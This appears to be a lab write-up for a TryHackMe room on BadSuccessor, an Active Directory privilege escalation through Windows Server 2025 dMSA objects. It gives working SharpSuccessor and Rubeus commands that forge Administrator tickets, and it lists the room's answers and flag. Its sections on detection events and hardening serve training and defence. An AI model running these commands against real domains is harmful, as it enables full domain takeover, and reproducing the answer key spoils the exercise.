

# AD: BadSuccessor · Technical Guide & Room Documentation

---

## 1. Metadata & Room Header

- **Room Title:** AD: BadSuccessor
- **Room Slug:** `adbadsuccessor`
- **Learning Path:** Junior Penetration Tester (Module 09: Vulnerability Knowledge)
- **Module Order:** Room 06 of 09
- **Difficulty:** Medium
- **Assessment Type:** Active Directory Multi-Machine Hands-on Lab
- **Tags:** `Active Directory`, `Windows Server 2025`, `dMSA`, `Kerberos`, `Privilege Escalation`, `BadSuccessor`, `Rubeus`, `bloodyAD`

---

## 2. Room Overview & Executive Summary

This room provides an advanced practical dissection of **BadSuccessor**, a critical privilege escalation vector in Active Directory environments discovered by security researcher Yuval Gordon from Akamai. The attack exploits **delegated Managed Service Accounts (dMSA)**, a capability introduced in **Windows Server 2025** to simplify the migration of legacy service accounts to managed machine objects. If a low-privileged principal possesses object creation or write permissions on an Organizational Unit (`CreateChild`, `GenericAll`, `WriteDACL`, or `WriteOwner`), they can instantiate an arbitrary dMSA object, link it to the Domain Administrator via `msDS-ManagedAccountPrecededByLink`, and coerce the Kerberos Key Distribution Center (KDC) into issuing service tickets impersonating the Domain Admin, achieving full domain dominance and recovering `THM{Successors_Unplanned_Upgrade}`.

---

## 3. Architecture & Attack Surface Analysis



---

## 4. Pedagogical Objectives & Skills Matrix

| Target Competency | Technical Description | Verification & Measurement |
| :--- | :--- | :--- |
| **AD Service Account Evolution** | Differentiate between sMSA, gMSA, and dMSA and their introducing OS versions. | Answered `Windows Server 2025`. |
| **OU Permission Auditing** | Parse Active Directory Access Control Entries (ACEs) to identify object creation vectors. | Identified third account: `ditall`. |
| **Windows BadSuccessor Exploitation** | Leverage SharpSuccessor and Rubeus to create dMSA links and execute Pass-The-Ticket. | Retrieved `THM{Successors_Unplanned_Upgrade}`. |
| **Linux Exploitation with bloodyAD** | Execute equivalent LDAP object creation and Kerberos forging from Linux using `bloodyAD`. | Verified command-line workflow. |
| **Detection Engineering & Hardening** | Monitor Event ID 5136 attribute writes and implement Tier-0 delegation controls. | Documented enterprise mitigation. |

---

## 5. Comprehensive Task Breakdown

| Task # | Task Title | Primary Objective / Target Question | Verified Answer Value |
| :---: | :--- | :--- | :---: |
| **Task 01** | Introduction | Let’s explore the BadSuccessor attack. | `No answer needed` |
| **Task 02** | Starting the Network | I have confirmed that my network is working correctly. | `No answer needed` |
| **Task 03** | Technical Background | Which version of MS Windows introduced dMSA? | `Windows Server 2025` |
| **Task 04** | Reconnaissance | What is the username of the third account? | `ditall` |
| **Task 05** | Exploitation Using Windows | What is the flag on the Administrator’s Desktop? | `THM{Successors_Unplanned_Upgrade}` |
| **Task 06** | Exploitation Using Linux | I love Linux! | `No answer needed` |
| **Task 07** | Mitigation and Conclusion | To explore other recent vulnerabilities, we recommend you check Recent Threats... | `No answer needed` |

---

## 6. Methodology & Reconnaissance Strategy

1. **Initial Access & Tunneling:** Establishing an RDP session to workstation `10.211.101.20` using valid domain credentials (`tbyte`).
2. **Access Control List Auditing:** Executing `Get-BadSuccessorOUPermissions.ps1` to detect OUs permitting child object creation.
3. **dMSA Weaponization:** Using `SharpSuccessor.exe` to create the managed account and populate the predecessor link.
4. **Kerberos TGT Acquisition:** Executing `Rubeus.exe tgtdeleg` to harvest the user's TGT via unconstrained delegation.
5. **Ticket Exchange & Impersonation:** Requesting a dMSA service ticket and injecting CIFS tickets into memory (`/ptt`).
6. **Lateral Access & Proof of Work:** Querying the Domain Controller's administrative `C$` share to extract proof-of-compromise flags.

---

## 7. Deep-Dive Practical Walkthrough

### 1. Reconnaissance Script Execution
```powershell
PS C:\PoC> .\Get-BadSuccessorOUPermissions.ps1
# Identifies eligible accounts on OU=LabOU:
# 1. hmann
# 2. tbyte
# 3. ditall
```

### 2. Windows Exploitation Commands
```powershell
# 1. Create dMSA object linked to Administrator:
PS C:\PoC> .\SharpSuccessor.exe add /path:"ou=LabOU,dc=tryhackme,dc=local" /account:tbyte /name:pentest_dmsa /impersonate:Administrator

# 2. Extract current user's TGT:
PS C:\PoC> .\Rubeus.exe tgtdeleg /nowrap

# 3. Request dMSA TGS Ticket:
PS C:\PoC> .\Rubeus.exe asktgs /targetuser:pentest_dmsa$ /service:krbtgt/tryhackme.local /opsec /dmsa /nowrap /ptt /ticket:<BASE64_TGT>

# 4. Request CIFS Service Ticket as Administrator:
PS C:\PoC> .\Rubeus.exe asktgs /user:pentest_dmsa$ /service:cifs/DC-LAB2025-01.tryhackme.local /opsec /dmsa /nowrap /ptt /ticket:<BASE64_TGS>

# 5. Read target flag:
PS C:\PoC> type \\DC-LAB2025-01.tryhackme.local\c$\Users\Administrator\Desktop\flag.txt
```
Retrieved flag: `THM{Successors_Unplanned_Upgrade}`.

---

## 8. Vulnerability Analysis & Exploitation Mechanics

### Root Cause: Flawed Predecessor Link Trust in KDC
The Kerberos KDC in **Windows Server 2025** processes `msDS-ManagedAccountPrecededByLink` during service ticket requests for dMSA objects. Because the KDC evaluates the link without verifying whether the account creating or modifying the dMSA possesses administrative authority over the linked predecessor, an attacker can specify `Administrator` and receive a ticket containing a Domain Administrator Privilege Attribute Certificate (PAC).

---

## 9. Detection, Logging & Forensic Artifacts

- **Directory Service Object Modifications (Event ID 5136):**
  Logs additions to `msDS-ManagedAccountPrecededByLink`:
  ```text
  Event ID: 5136
  Object Class: msDS-DelegatedManagedServiceAccount
  Attribute: msDS-ManagedAccountPrecededByLink
  Value: CN=Administrator,CN=Users,DC=tryhackme,DC=local
  ```
- **Kerberos Service Ticket Requests (Event ID 4769):**
  Spikes in requests where account names ending in `$` request tickets asserting privileged identities.

---

## 10. Hardening, Mitigation & Remediation Guide

1. **Restrict OU Object Creation Permissions:**
   Audit and remove broad `CreateChild` and `GenericAll` rights from regular accounts on all OUs.
2. **Restrict dMSA Management to Tier-0 Admins:**
   Enforce schema and container policies preventing non-Domain Admins from instantiating `msDS-DelegatedManagedServiceAccount` objects.
3. **Deploy Protected Users Group:**
   Place administrative accounts in the Protected Users security group to disallow Kerberos delegation.

---

## 11. Defense-in-Depth & Enterprise Architecture

- **Tiered Administrative Architecture:** Isolate Domain Controllers from workstation management zones to prevent workstation footholds from accessing domain-wide administrative attributes.
- **Continuous Schema Auditing:** Implement automated SIEM alerts triggering on any modification to attributes containing `PrecededBy` strings in Active Directory.

---

## 12. Tool Comparison & Quick Reference

| Tool | Runtime | Primary Function |
| :--- | :--- | :--- |
| **SharpSuccessor** | Windows (.NET) | Automates dMSA object creation and predecessor attribute manipulation |
| **Rubeus** | Windows (.NET) | Kerberos ticket harvesting, dMSA ticket exchange, and Pass-the-Ticket injection |
| **bloodyAD** | Linux (Python) | Remote LDAP object creation and AD privilege escalation framework |
| **uv** | Linux (Rust/CLI) | Fast, isolated package installer for modern Python security tooling |

---

## 13. Common Pitfalls & Operational Troubleshooting

1. **sMSA vs gMSA vs dMSA:** Remember that sMSA was introduced in Windows Server 2008 R2, gMSA in 2012, and dMSA in **Windows Server 2025**.
2. **Omitting `/ptt`:** Generating tickets without the Pass-the-Ticket flag creates base64 output without injecting the ticket into the current LUID.
3. **Kerberos Time Skew:** Kerberos authentication fails if the attacker's system clock deviates more than 5 minutes from the Domain Controller.

---

## 14. References & Standards

- Official TryHackMe Room: [https://tryhackme.com/room/adbadsuccessor](https://tryhackme.com/room/adbadsuccessor)
- Akamai Security Research: [BadSuccessor Disclosure](https://www.akamai.com/blog/security-research/badsuccessor-abusing-dmsa-privilege-escalation)
- SpecterOps Guidance: [Understanding & Mitigating BadSuccessor](https://posts.specterops.io/)
- Microsoft Open Specifications: [[MS-KILE] Kerberos Protocol Extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/)
